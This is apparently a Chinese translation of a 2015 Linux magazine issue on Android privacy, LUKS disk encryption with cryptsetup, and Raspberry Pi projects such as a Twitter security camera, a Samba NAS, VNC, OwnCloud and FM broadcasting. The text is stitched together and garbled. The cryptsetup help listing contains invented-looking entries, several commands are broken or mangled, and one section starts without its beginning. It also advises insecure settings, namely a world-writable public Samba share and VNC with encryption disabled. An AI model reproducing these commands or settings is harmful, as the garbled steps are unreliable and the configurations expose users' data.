注重隐私的用户应启用并使用多种锁定手机的选项之一。你可以通过图案、数字 PIN、字母数字密码或语音命令来限制访问。如果你使用锁屏，还应禁用任何锁屏小部件。禁用锁屏小部件过去需要第三方应用如 Lockscreen Policy，但现在已内置于最新版本的 Android 中。

锁定手机是一回事，但当你把未锁定的手机交给别人时就无济于事了。你可以使用 Screen Locker (http://bit.ly/LRBtzz) 在把手机交给别人之前锁定屏幕。该应用禁用所有形式的输入，并防止用户查看屏幕上显示内容之外的任何东西。然后你可以通过输入预设图案来解锁设备。

然后还有一些应用会用密码锁定对应用的访问。其中之一是 Privacy Master Free，它还可以伪造崩溃以防止应用启动，并阻止访问关键区域，如 Google Play 商店。你也可以阻止任务管理器以及 USB 连接。

然后是 AppLock 应用，它除了能够阻止访问应用外，还提供两个独立的保险库，可用于隐藏照片和视频。该应用还可以防止切换 Wi-Fi 等设置。其中一个最佳功能是其创建锁定配置文件的能力。因此，你可以创建一个在办公室时要锁定的应用列表，以及在与淘气的侄子们在一起时使用的另一组。你可以根据时间和位置触发锁定。

在安全方面，该应用可以随机重新排列其数字键盘，以防止他人通过跟踪你的手指来猜出你的密码。它还允许你将应用从应用程序抽屉中隐藏起来，以保持其在设备上的存在成为秘密。

## 加密你的设备

最后，注重隐私的用户应使用内置功能加密手机上的数据。然而，该过程存在一些注意事项。首先，加密是单向过程，也就是说，一旦开启，就没有机制可以关闭加密。你必须对手机进行恢复出厂设置并丢失所有数据。此外，请确保在启动加密过程之前备份你的数据，并且不要中断该过程。如果你这样做，你肯定会丢失数据并使设备无法使用。

开始之前，请确保你已设置锁屏 PIN 或密码，这是必需的，因为 Android 将使用它作为你的解密密钥。要开始加密，请前往 系统设置 > 安全 > 加密设备。完成后，每次启动手机时你都必须输入 PIN 或密码。

除了加密整个设备外，你还可以选择加密选定的文件。其中一款最佳应用是 SSE Universal Encryption。该应用提供所有流行的加密算法，包括 AES-256、Serpent-256 和 Blowfish-256，并具有三个模块：密码保险库模块允许你安全存储密码并将其组织到文件夹中。消息加密模块加密文本片段。但最有趣的选项是文件/目录加密模块。它让你使用内置文件浏览器选择一个文件然后对其进行加密。

> “Privacy Master Free 可以伪造崩溃以防止应用启动…”

除了加密之外，SSE 还可以安全删除文件以消除所有危险。




安装 CyanogenMod 确实需要一些操作，但如果你能借用一台 Windows 机器，你可以通过 http://get.cm 上的 CyanogenMod Installer 节省精力。自由软件爱好者会想查看 Replicant 发行版。它基于 CyanogenMod，并用自由软件替代品替换所有专有的 Android 组件。Phil Zimmermann 的 Silent Circle 已与西班牙 Geeksphone 手机制造商合作，即将为注重隐私的人推出 Blackphone。该手机将运行 PrivatOS 发行版。

## 切换到第三方固件

每年 Google 都会提供一个名为 AOSP 的原版 Android 操作系统供下载。许多开发者会采用这个版本并对其进行开发，制作自己的 Android 定制版本。

CyanogenMod 就是这样一个 Android 发行版，也是最受欢迎的发行版之一，拥有数百万用户。它受欢迎的一个原因是它让你完全控制设备，并使其摆脱对 Google、你的网络或手机制造商的任何束缚。还值得一提的是，CyanogenMod 团队会迅速修补安全漏洞并修复 Google 仅在下一个 Android 版本中才修复的错误。

第三方固件还包括 Privacy Guard 应用，可让你更好地控制应用及其权限。

该应用的新版本还包括 Google 在 Android 4.3 中删除的 AppOps 功能。有了此功能，用户可以防止单个应用访问你的数据。最新版本的 CyanogenMod 还将安全短信应用 TextSecure 集成到固件本身中。

## 加密你的硬盘

你是否想让数据免遭窃贼之手？我们将为你展示如何通过磁盘加密来加固硬盘。

过去一年左右，互联网数据安全的话题层出不穷：先是爱德华·斯诺登的爆料，之后是 OpenSSL 的 Heartbleed 漏洞，以及 Bash 漏洞 Shellshock。在 Heartbleed 出现前不久，GnuTLS 中还发现了一个关注度较低的漏洞。正因如此，我们越来越关注数据传输过程中的安全性——但存储时呢？我们之前提到过 TrueCrypt，它非常适合加密可移动存储设备（只要使用正确的版本，详见第 14 页），尤其是它也支持 Windows 和 Mac。但如果你确实担心，也许希望加密整个主目录，甚至整个硬盘。这不仅仅是为了防范黑帽黑客：如果你的笔记本电脑中存有个人、业务或其他机密信息，而它丢在了火车或出租车上，或者干脆被偷了，怎么办？

Linux 内核支持两种常见的加密类型：dm-crypt 和 ecryptfs。后者是一种位于标准文件系统之上的加密文件系统。如果你挂载“底层”文件系统，你会看到所有文件，但其内容（通常还有文件名）是加密的。它在目录级工作，同一文件系统上的其他目录可以保持不加密，也可以单独加密。Ubuntu 等发行版就是使用这种方法来加密用户主目录的。


另一种方法是 dm-crypt，也就是我们这里要介绍的方法。它在更底层工作，对承载文件系统的块设备进行加密。Phoronix 的一项基准测试显示，使用 dm-crypt 加密整个磁盘，性能优于使用 ecryptfs 加密主目录。

## 块设备的堆叠

在介绍加密之前，理解块设备的工作原理很重要。块设备是系统与存储硬件之间的接口，例如 `/dev/sda1`。块设备之下是硬件驱动程序（如 SATA 驱动程序），再往下是硬件本身。操作系统随后与块设备打交道，在其上创建文件系统。

这是对块设备的常见看法，但块设备远不止于此。尤其是，一个块设备可以作为另一组块设备的接口——它们可以堆叠。其实你已经这么做了：你在 `/dev/sda1`（一个磁盘分区）上创建文件系统，而 `/dev/sda1` 是一个块设备，它引用 `/dev/sda`（整个磁盘）。


```
luksKillSlot --device <device> --key-slot <key slot> -- wipe key with number <key slot> from LUKS dev
luksUUID --devices - print UUID of LUKS device
luksDump --device - tests --device for LUKS partition header
luksDump --device - dump LUKS partition header information
cryptDump --devices - dump LUKS device information
luksSuspend --device - Suspend LUKS device and wipe key (all I/O are frozen)
luksOpen --device - Open LUKS device and map it
luksHeaderBackup --device - Backup LUKS device header and keyslots
luksHeaderRestore --device - Restore LUKS device header and keyslots
```

你也可以使用旧的操作语法别名：
`open`: `create` (`plainOpen`, `luksOpen`, `loopaesOpen`, `cryptOpen`)
`close`: `remove` (`plainClose`, `luksClose`, `loopaesClose`, `cryptClose`)

`<name>` 是在 `/dev/mapper` 下创建的设备
`<device>` 是加密设备
`<key slot>` 是要修改的 LUKS 密钥槽号
`<key file>` 是 `luksAddKey` 操作的新密钥的可选密钥文件

默认编译内置的密钥和密码短语参数：
Maximum keyfile size: 8192kB, Maximum interactive passphrase length 512 (characters)
PBKDF2 iteration time for LUKS: 1000 ms

默认编译内置的设备密码参数：
loop-AES: `aes`, Key 256 bits
plain: `aes-cbc-essiv:sha256`, Key 256 bits, Password hashing: `ripemd160`
luks: `aes-cbc-essiv:sha256`, Key 256 bits, LUKS header hashing: `sha1`, RNG: `/dev/random`
[net/Hostor] - 0h

你也可以使用旧的操作语法别名：

运行 `cryptsetup --help` 不仅会显示你可以使用的命令，还会列出可用的哈希算法和加密算法。

在 RAID 阵列之上，而该阵列本身又叠加在各个磁盘或其分区的块设备之上。 使用 dm-crypt 进行全盘加密的工作方式如下：它在你的存储介质之上创建一个块设备，在数据保存时对其进行加密，在读取时对其进行解密。 然后你可以在加密的块设备之上创建一个标准文件系统，它的功能与在普通磁盘分区上创建的文件系统完全相同。

许多发行版都有安装到加密磁盘的选项，但在这里我们将直接查看创建和使用 dm-crypt 设备的方法，以了解它们的工作原理，而不是由安装程序设置的某种黑魔法。 Dm-crypt 使用内核的设备映射器子系统来管理其块设备（因此得名），并使用内核的加密例程来处理加密。 所有这些都由内核处理，但我们需要用户空间软件来创建和管理 dm-crypt 设备，标准工具是 `cryptsetup`。 它可能已经安装在你的发行版上——如果没有，它肯定会在其主要软件包仓库中。



## 加密某物

`Cryptsetup` 可以创建两种类型的加密设备：`plain dm-crypt` 和 `LUKS`。 如果你知道自己需要使用 `plain dm-crypt`，你对磁盘加密的了解已经远超本文的范围，因此我们只会查看 `LUKS`，它是大多数用途的最佳选择。 尝试文件系统，无论是否加密，在学习过程中都会有丢失磁盘数据的风险。 这里所有的示例都使用 `/dev/sdb`，我们假定它是一个外部或其它备用设备——在你熟练之前不要在系统磁盘上尝试这些操作。 所有这些命令都需要以 root 身份运行，因此以 root 身份登录终端使用 `su`，或在每个命令前加上 `sudo`。

让我们开始创建加密设备：

```
cryptsetup luksFormat /dev/sdb1
```

这会在提示你输入密码短语后，在 `/dev/sdb1` 上设置一个加密分区。 你可以使用以下命令打开加密设备：

```
cryptsetup luksOpen /dev/sdb1 name
```

这将要求输入密码短语，然后使用命令行上给出的名称在 `/dev/mapper` 中创建设备。 然后你就可以像使用任何磁盘块设备一样使用 `/dev/mapper/name`：

```
mkfs.ext4 /dev/mapper/name
mount /dev/mapper/name /mnt/encrypted
```

关于密码短语的通常规则适用：保持其长且多样，难以猜测但易于记忆。 如果你丢失了密码短语，你将丢失设备的全部内容。

## 保护密钥安全

LUKS 加密设备包含八个密钥槽。 密钥是密码短语的另一种说法，因此你可以为设备分配多个密码短语，这在你维护多个系统并且想要一个只有你知道的主密码短语时很有用。 当你使用 `LuksFormat` 时，你提供的密码短语会存储在槽 0 中。 然后你可以用以下命令添加另一个：

```
cryptsetup luksAddKey /dev/sdb1
```

系统会要求你输入现有密码短语，然后提示输入新密码短语。 密钥也可以是文件的内容而不是密码短语；文件可以包含任何内容，但通常使用随机数据：

```
dd if=/dev/random of=/path/to/keyfile bs=1k count=1
chmod 0400 /path/to/keyfile
cryptsetup luksAddKey /dev/sdb1 /path/to/keyfile
cryptsetup luksOpen --key-file /path/to/keyfile /dev/sdb1
```

不言而喻，密钥文件应安全存储，只能由 root 读取，并且不能存储在加密设备上。 就我个人而言，即使卷始终由密钥文件解锁，我也更喜欢同时设置一个非常强的密码短语，并将其记录在安全的地方，以防止密钥文件 ever 损坏或无法访问。 密钥也可以使用 `luksChangeKey` 和 `luksRemoveKey` 命令进行更改或删除。

## 更多选项

到目前为止，我们一直坚持使用默认的加密选项，但 `cryptsetup` 接受 `--hash` 和 `--cipher` 选项。 前者设置密码短语应被哈希的哈希算法，而后者选择加密方法。 默认值通常已经足够，但你可以使用以下命令查看可用选项：

```
cryptsetup --help
```

这些选项仅在 `LuksFormat` 时需要。 一旦加密设备创建完毕，`cryptsetup` 在打开它时会自动使用正确的设置。 除非你有非常充分的理由使用不同的东西，否则最好坚持使用流行的密码和哈希。 使用频率较低的方法更有可能存在未知缺陷，因为使用的人更少，就像最近在 `cryptsetup` 使用的 `libgcrypt` 库中 `Whirlpool` 哈希实现出现的情况一样。 修复实现导致那些已经使用损坏哈希的系统出现问题。

坚持使用常见方法的另一个原因是可移植性。 这对于内部磁盘来说无关紧要，但如果你想在另一台系统上使用加密磁盘，那么该系统也必须安装所使用的哈希和密码。

使用 `cryptsetup luksDump` 可以了解有关 LUKS 加密分区的信息。 还有备份和恢复命令来保存 LUKS 信息的副本。

## LUKS

Linux Unified Key Setup 是为提供一种标准、平台无关的（尽管名称如此）格式来在磁盘上存储加密数据而创建的。 它不指定使用的加密方法，但指定了有关这些方法的信息的存储方式。 它还提供了一种更稳健的存储密钥或密码短语的方法，因为 `plain dm-crypt` 方法可能容易受到损坏的影响。 LUKS 的跨平台特性意味着现在可以使用 FreeOTFE (http://sourceforge.net/projects/freeotfe/files/) 从 Windows 访问 LUKS 加密设备上的存储信息。

## 黑客手册 2015

## 硬件


# 解放你的硬件。

Linux 和 FOSS 几十年来一直在增强和扩展设备——我们将展示一些精彩的破解技巧，让像树莓派这样“心甘情愿”的硬件，以及像“谷歌化”手机这样不太听话的设备，都听你指挥。

- 破解树莓派 .................................................. 38
- 为《坎巴拉太空计划》制作一个 Arduino 控制器 .................. 46
- 在你的新 Chromebook 上安装 Linux ............................. 52
- 构建一个多 Pi 集群 .................................................. 56
- 解放你的 Android 手机 ................................................. 60

## 技能：安全、Twitter API

### 破解 #1：推特安防摄像头

官方树莓派摄像头模块的发布打开了无限可能的世界。那些已经在使用 USB 摄像头的黑客们，如今有了一个非常适合监控等项目的微型全高清拍摄设备。结合树莓派的计算能力，你可以将捕获的安防图像发送到你的 Twitter 信息流中。

在连接摄像头之前，找到摄像头串行接口（位于以太网端口旁边），轻轻向上拉动卡扣。然后将摄像头模块的排线插入插槽，排线上的银色触点要背对以太网端口。记住不要把排线推得太深。现在用一只手按住排线，用另一只手将 CSI 卡扣按回原位以锁定摄像头排线。

硬件就位后，接下来就是设置软件。启动进入 Raspbian，并通过 `sudo raspi-config` 打开配置工具来配置你的树莓派。向下滚动列表，找到写着“Enable Camera”的选项。你需要确认选择并重启树莓派。重启后，你就可以使用文档完善的 `raspistill` 和 `raspivid` 命令分别拍摄静态图像和视频了。

为了捕捉运动，我们将使用树莓派社区成员编写的轻量级运动检测 Python 脚本。该脚本依赖于 Python Imaging Library，这是一个用于分析和处理图像的库。你可以用 `sudo apt-get install python-imaging-tk` 来安装它。同时在你的主目录下创建一个名为 `picam` 的目录，供脚本存储图像，使用 `mkdir ~/picam`。接着用 `wget -c http://pastebin.com/raw.php?i=y7J7Jz9w -O picam.py` 下载脚本，并用 `chmod +x picam.py` 让它可执行。

当你用 `./picam.py` 运行脚本时，它会打开树莓派摄像头上的红色 LED 并开始拍摄低分辨率图像。然后它会通过比较两张连续图像中的像素来寻找运动。如果检测到变化，脚本会捕获一张更高分辨率的图像。该脚本非常高效，会自动删除用于比较的低分辨率图像，只存储捕捉到运动的高分辨率图像。要让脚本在开机时运行，你需要一个 init 脚本，在启动时运行 `picam.py`，并在树莓派关机前将其终止。同样，社区已经为你做好了所有准备工作。只需用 `wget http://pastebin.com/raw.php?i=AfqbjQrb -O picam_init` 获取他们的脚本，然后用 `sudo mv ~/picam_init /etc/init.d/picam` 将其移动到正确位置，再用 `sudo chmod +x /etc/init.d/picam` 使其可执行。最后，你需要用 `sudo update-rc.d picam defaults` 让启动系统感知到这个脚本……



现在脚本将随着树莓派的启动和关机而自动启动和停止。你也可以像控制任何其他守护进程一样手动控制它。例如，`/etc/init.d/picam stop` 会停止脚本，`/etc/init.d/picam start` 会启动它。

### 发布到 Twitter

我们现在将设置一个新的 Twitter 账户，并让树莓派将图像发布到该账户。确保该账户是私密的。首先安装 Python 的 `pip` 包管理器，用于安装 Python 库，使用 `sudo apt-get install python-pip`。然后安装 Tweepy：一个用于 Twitter API 的 Python 封装库，使用 `sudo pip install tweepy`。注意：要使用 Tweepy，你需要一个 Twitter 开发者账户。前往 `https://apps.twitter.com` 并使用新账户的凭据登录。在打开的页面中点击“Create New App”，并使用提供的空白处为其命名和添加描述。回调 URL 字段留空。向下滚动页面并创建应用。

最初，应用是以只读权限创建的。点击该应用，切换到“Permissions”选项卡，将“Read and Write”单选按钮切换为开启。然后切换到“API Keys”选项卡，点击“Create My Access Token”按钮。记下此页面上列出的 `API Key`、`API Secret`、`Access Token` 和 `Access Token Secret` 变量。

然后下载修改后的 `picam` 脚本，该脚本已改为将捕获的图像发布到 Twitter：`https://raw.githubusercontent.com/ghalfacree/bash-scripts/master/picamera-security.py > picam.py`。在文本编辑器中打开这个新的 `picam.py`，并将你从 Twitter 记下的四项信息插入到脚本顶部提供的空白处。完成后，用 `chmod +x picam.py` 使其可执行。现在当你运行脚本并检测到运动时，除了捕获图像并存储到 SD 卡中，树莓派还会将其发布到你的私密 Twitter 账户，然后该图像就会出现在你的 Twitter 信息流中。

> “树莓派摄像头模块的发布打开了无限可能的世界……”

树莓派摄像头模块重量仅为 9 克，但可以拍摄分辨率为 2,592x1,944 的静态图像，以及全高清 1080p 30fps 视频和 720p 60fps 视频。



Kali Linux 发行版专门为渗透测试而设计，可用于树莓派。

## 技能：网络、互操作性、数据管理

### Hack #2：文件共享 Samba 服务器

能够从其他机器在你的树莓派上共享和访问数据非常有用。例如，如果你将其用作始终在线的下载盒，你也希望将下载的数据从 Pi 上移走。现在数据可能存储在 SD 卡上或连接的 USB 磁盘上。使用 Samba 软件——它是 SMB/CIFS 网络协议的实现——你可以用树莓派作为网络附加存储（NAS）设备，并轻松地从网络上的计算机访问连接到 Pi 的 USB 驱动器。

`sudo apt-get install samba samba-common-bin` 命令将获取所需的软件。现在，将 USB 磁盘连接到 Pi，它将被自动挂载到 `/media` 文件夹下。假设 USB 驱动器挂载到 `/media/usb`。你现在需要配置 Samba 以便在网络上共享该驱动器。为此，你首先需要添加一个名为 `pi` 的 Samba 用户。输入 `sudo smbpasswd -a pi` 命令，并在提示时输入密码。

接下来，在文本编辑器中打开 Samba 的配置文件（`/etc/samba/smb.conf`）。如果你希望从 Windows 机器访问 Pi，请在 `smb.conf` 文件顶部附近找到 `workgroup = WORKGROUP` 行并将其更改为你的 Windows 工作组的名称。在文件更靠下的位置，定位到 `# security = user` 行并删除 `#` 以取消注释该行并打开安全设置。

最后，滚动到文件末尾并添加以下行：

```
[USB]
path = /media/usb
comment = USB NAS Drive
valid users = pi
writable = yes
browseable = yes
create mask = 0777
public = yes
```

保存文件，然后使用 `sudo /etc/init.d/samba restart` 重启 Samba。

就这样。你现在可以从网络上的任何其他计算机访问连接到 Pi 的 USB 驱动器。



Remmina 具有非常易用的界面，并且在鼠标移动到屏幕边缘时会自动滚动。

### Hack #3：树莓派作为瘦客户端

瘦客户端是一种依赖其他强大计算机进行繁重处理，同时呈现结果的计算机。得益于其高效节能且无噪音的设计，树莓派是理想的瘦客户端。瘦客户端依赖远程桌面协议与强大的远程桌面进行通信。


对于此 hack，你需要一台将作为远程服务器的强大计算机和将作为瘦客户端的树莓派。我们的桌面服务器运行 Ubuntu，它预装了可通过 Desktop Sharing 应用访问的 Vino 远程桌面服务器。远程桌面功能默认处于禁用状态。要启用它，请启动 Desktop Sharing 应用并勾选 'Allow other user to view your desktop' 框。这也会启用第二个复选框，允许连接的用户控制 Ubuntu 服务器。

同时启用了安全部分下的第一个选项，该选项强制你在每次连接请求时进行批准。然而，为了更顺畅的工作流程，你希望通过取消勾选该框来禁用此选项。相反，启用下一个复选框，该框会提示用户输入密码，并在提供的空间中输入一个强密码。完成后，点击 Close 按钮保存更改。如果你使用其他发行版，请浏览网页并在该发行版上安装 VNC 服务器，例如 Vino 或 Krb。

如果你使用 Ubuntu 的 Vino，你需要做一个额外的更改，因为 Vino 已被更改为默认需要加密，但仅支持不太常见的旧加密方法。在 Ubuntu 服务器上启动终端并使用 `gsettings set org.gnome.Vino require-encryption false` 修改 Vino 的安全设置。按照剩余的 hack 操作，如果你能从 Pi 连接，返回 Ubuntu 服务器并通过安装 dconf-editor `sudo apt-get install dconf-editor` 使设置永久化，然后导航到 `org > gnome > desktop > remote-access` 并取消勾选 `require-encryption` 设置。

你现在需要准备瘦客户端 Pi。对于此 hack，我们将使用轻量级的 Remmina 客户端，你可以使用 `sudo apt-get install remmina` 安装。安装后它将位于 Internet 菜单中。启动客户端并点击新图标以配置与服务器的连接。

在打开的窗口中，为此连接命名并从 Protocol 下拉菜单中选择 VNC。你还需要指定服务器字段中的服务器 IP 地址。你也可以通过从相应的下拉列表中选择更高的颜色深度和更好的质量来提升图像质量。完成后点击 Connect。Remmina 将建立与 Ubuntu 服务器的连接并提示你输入之前设置的密码，允许你从 Pi 控制远程桌面。

### 超频 Pi

虽然 Pi 的 700MHz 处理器足以设置这些 hack，但过了一段时间你会希望能从中榨取更多性能。好消息是你能做到！Pi 的 BCM2835 处理器可以在默认速度之上运行…

然而，请记住这种性能是有代价的——处理器会消耗更多电力，比以前运行更热，并且可能不会像以默认速度运行的普通 Pi 那样长久。此外，虽然可以手动更改 Pi 的性能，但最安全的方法是使用 `raspi-config` 工具中的预配置超频设置，该工具也不会使保修失效。

`raspi-config` 工具中的设置被证明对大多数 Pi 使用是安全的。要超频你的设备，启动 `raspi-config` 并向下滚动到 Overclock 选项并确认你希望继续。你现在会看到一个预设超频速度列表，你可以选择其中任何一个。做出选择后，菜单将以新的速度重新启动树莓派。


如果 Pi 无法以超频设置启动，在启动时按住 Shift，这将以出厂速度加载 Pi。

## Hack #4：托管你自己的 OwnCloud

我们之前提到过（见 p22），如果你想要通用访问你的数据，你不需要花钱购买可能将数据存储在你法律管辖区之外的服务器的服务。相反，用这笔钱购买一个 Pi 和一个大容量带电 USB 磁盘，并使用 OwnCloud 托管你自己的私有和受保护的云共享服务。这将从连接到互联网的任何设备同步和共享你的数据。为了增加安全性，OwnCloud 还可以加密你的文件。该软件可以处理多种格式的文件，并内置图库图像查看器和音乐播放器。OwnCloud 中的一个有趣功能是文件版本控制——由于此功能，服务器跟踪每个文件的全部更改，你可以一键恢复到旧版本。

与其它在线云存储服务一样，你可以使用网络浏览器或 Windows、Mac 和 Linux 上的桌面客户端以及 Android 和 iOS 设备的移动客户端在 OwnCloud 上同步文件。

OwnCloud 运行在 Apache Web 服务器上，也需要数据库服务器。虽然它可以使用 MySQL，但对于此 hack 我们将使用轻量级的 SQLite 服务器。你可以使用 `sudo apt-get install apache2 php5 php5-gd php5-sqlite curl libcurl3 php5-curl` 安装所有必需组件。



现在前往 https://owncloud.org 并下载最新版本的 tarball。用 `tar xjf owncloud-7.0.2.tar.bz2` 解压它，然后使用 `sudo mv owncloud /var/www/` 将生成的目录移动到 Apache 服务器的根目录。然后使用 `sudo chown -R www-data:www-data /var/www/owncloud` 确保新文件具有其新位置的正确权限。

你需要为 OwnCloud 正常工作启用某些 Apache 模块。在终端中输入 `sudo a2enmod headers rewrite env` 然后使用 `sudo service apache2 restart` 重启 Apache。要配置 OwnCloud，请启动网络浏览器并导航到 OwnCloud 安装实例 `localhost/owncloud`。由于这是新安装，你将被要求为 OwnCloud 管理员创建一个用户账户。

你现在可以以管理员身份登录你的 OwnCloud 服务器并开始上传你想要共享的文件。但在这样做之前，如果你希望上传大于 2MB 的文件，你必须调整 PHP 的配置。为此，在文本编辑器中打开位于 `/etc/php5/apache2` 下的 PHP 配置文件 `php.ini`。查找 `upload_max_filesize` 和 `post_max_size` 变量并将其值从 2M 更改为类似 500M 或 1G 的值。

> "如果你想要通用访问你的数据，购买一个 Pi 和一个 USB 磁盘并托管你自己的云！"

你现在已准备好使用 Web 界面将数据上传到你的 OwnCloud 服务器。你也可以通过 WebDAV 协议与 OwnCloud 服务器交互。在 Files 管理器的位置区域，按 Ctrl+L 以启用位置区域。在这里你可以指向你的 OwnCloud 服务器，例如 `dav://localhost/owncloud/remote.php/webdav`。一旦你通过身份验证，OwnCloud 存储将被挂载，你可以像操作普通文件夹一样与其交互。

要共享上传的文件，请转到 Web 界面中的 Files 部分并将鼠标悬停在你想要共享的文件上。这会显示多个选项，包括 Share，它允许你选择要与谁共享该项目以及是否授予他们编辑和删除文件的权限。

你也可以与不在你 OwnCloud 服务器上的某人共享项目。当你点击 Share with link 复选框时，OwnCloud 会显示该项目的链接，你可以与互联网上的任何人共享。 optionally 你也可以对链接进行密码保护并设置过期日期。

OwnCloud 7 相较于早期版本有了显著提升，工作流程更加精简。

## Skills: Streaming, emulation and GPIO

## Hack #5: Stream music from the web

我们到处都有音乐。除了硬盘上免 DRM 的曲目，你可能还在 Spotify 或 Google Play 上有数百首曲目。你可以用 Pi MusicBox 发行版将所有内容整合在一起，它能把树莓派变成终极音乐播放器。

Pi MusicBox 可以通过连接到树莓派耳机插孔的扬声器播放音乐，也可以通过 HDMI 和 USB 端口输出。因此你所要做的就是安装发行版，将一些扬声器连接到树莓派，输入你的账户凭据，然后开始播放。然后你可以从网络上的任何计算机甚至任何 Android 设备控制你的增强版树莓派。

首先从 www.pimusicbox.com 下载 Pi MusicBox 发行版的压缩镜像。解压下载的 ZIP 文件，然后使用 dd 命令将 .img 镜像文件写入你的 SD 卡，例如 `sudo dd if=musicbox0.5.img of=/dev/sdd`。请记住将 `/dev/sdd` 替换为你的 SD 卡的位置。


如果使用以太网端口将树莓派连接到互联网，你可以从新创建的 SD 卡启动树莓派。但是，如果使用无线网卡，你需要编辑发行版的配置文件并手动指向你的无线路由器。从普通发行版访问新创建的 SD 卡，导航到 `config` 文件夹并在文本编辑器中打开 `settings.ini` 文件。在文件顶部附近你会注意到两个变量，`WIFI_NETWORK` 和 `WIFI_PASSWORD`。在这两个变量旁边插入你网络的对应值并保存文件。需要注意的是，PiMusicBox 仅适用于受 WPA2 保护的无线网络。

完成这些后，使用配置好的 SD 卡启动树莓派。首次启动时，发行版会调整文件系统大小以占用整张卡，并自动重启。如果你将显示器连接到树莓派，可以跟随启动过程，否则等待一两分钟，然后在网络上任何计算机上启动浏览器并访问 `http://musicbox.local`。如果这不起作用，请将浏览器指向树莓派的 IP 地址。

Pi MusicBox 的默认界面相当单调，因为你尚未配置任何音乐源。要解决这个问题，点击左侧导航栏中的 `Setting` 链接。这会带你到一个页面，你可以在此单独启用和配置所有支持的流媒体服务，从 Spotify 和 Google Music 等付费服务到 The Internet Archive、Soma FM 等免费服务。你也可以从此页面控制其他设置。例如，`Audio` 设置让你可以切换音频输出设备。

Pi MusicBox 发行版具有可用的 Samba 配置，应该会在所有操作系统的文件管理器中的 Network 部分显示。发行版的 Samba 共享只有一个名为 `Music` 的文件夹。你可以将任何音频文件放入此文件夹，它们将被传输到 SD 卡。

每当你重启树莓派时，发行版会在启动时扫描任何新音乐。然后你就可以从发行版的 Web 界面浏览和播放这些文件。

你也可以通过任何支持 Music Player Daemon (`MPD`) 的软件播放音乐，例如 Android 上的 `MPDroid` 应用。要连接，启动该应用并在首次运行向导中，在主机名字段输入树莓派的 IP 地址。

## Hack #6: Broadcast audio

将音乐流式传输到树莓派是一回事。如果想将音乐流式传输到其他设备呢？顺便说一下，如何运营自己的电台？事实上，你可以毫不费力地做到这一点。

除了树莓派上熟悉的 Audio、以太网、HDMI 和 USB 端口外，该设备还具有旨在更直接地与其他芯片和模块连接的接口。这些通用输入/输出 (`GPIO`) 端口是排列成两条平行条带上的引脚（Model B 板上有 26 个，B+ 上有 40 个）。

这些接口不是即插即用，但可以通过软件控制。Code Club 的一群黑客编写了一个程序，使用原本用于生成扩展频谱时钟信号的引脚来输出 FM 广播信号。要传输一个相当强的 FM 信号，你只需将一根导线连接到 `GPIO 4` 引脚。即使没有导线，树莓派广播的 FM 信号也会被附近的 FM 接收器接收到。

给树莓派通电并打开终端。现在从 Code Club 获取代码并使用 `wget` 解压：`http://comatos.com/pifm.tar.gz`

```
mkdir ~/pifm
tar zxvf pifm.tar.gz -C ~/pifm
```

`tarball` 解压出六个文件。令人惊讶的是，这就是全部。你现在可以用 `sudo ./pifm sound.wav 101.2` 广播包含的 `sound.wav` 文件。现在拿一个 FM 接收器并调到 FM 101.2，你就会听到星球大战主题曲。你实际上可以通过在命令末尾附加频道频率，将广播频率从 88 MHz 到 108 MHz 之间更改。

你也可以播放其他音频文件，但它们必须是 16 位 22,050Hz 单声道且仅为 WAV 格式。那


> Pi MusicBox 基于用 Python 编写的 Mopidy 音乐服务器。

似乎像是一个限制，但实际上并非如此，多亏了出色的 SoX sound exchange 音频编辑器。我们将使用这个巧妙的小工具来处理任何 MP3 文件，无论其编码如何，并即时将其转换为正确的 WAV 文件。

首先使用 `sudo apt-get install sox libsox-fmt-all` 安装音频编辑器及其依赖项。完成后，输入以下命令，将 `"SomeSong.mp3"` 替换为你希望播放的 MP3 文件的名称：

```
sox -t mp3 SomeSong.mp3 -t wav -r 22050 -c 1 - | sudo /pfm - 101.2.
```

命令的第一部分将 MP3 文件转换为 WAV 文件，将其音频采样率更改为 22050 Hz 并将音轨混音为单声道。转换后的音轨随后发送到标准输出，用连字符表示，然后通过管道（`|`）传输到 `pfm` 命令的标准输入。

与上述示例中 `pfm` 命令的唯一区别是，我们没有指定要广播的文件名，而是要求脚本广播标准输入。如果你仍将 FM 收音机调至 101.2 频率，你现在应该能听到你的 MP3。

你可以用 SoX 做一些很棒的事情。例如，你可以用它来实时广播你最喜欢的互联网流媒体。命令 `sox -t mp3 http://www.tuxradar.com/files/podcast/tuxradar_506e02.mp3 -t wav -r 22050 -c 1 | sudo /pfm - 101.2` 将广播 TuxRadar 播客。与前一个示例的唯一区别是，你现在指向的是在线的 MP3，而不是本地的 MP3。

脚本将下载缺失的依赖项，然后显示一个包含几个选项的菜单。

第一个选项下载并安装所有流行支持平台的预编译二进制文件。第二个选项获取每个应用的最新源代码并在 Pi 上编译它们。如果你选择此选项，请做好等待的准备，因为这可能需要几乎一整天的时间。如果你的耐心不足，不妨直接获取映像文件并使用 `dd` 将其传输到空白 SD 卡上。

RetroPie 使用名为 `EmulationStation` 的图形前端，允许你管理各种已安装的模拟器。RetroPie 映像会自动启动此前端，但如果你在现有的 Raspbian 安装之上设置了 RetroPie，你将必须手动使用 `emulationstation` 命令启动它。

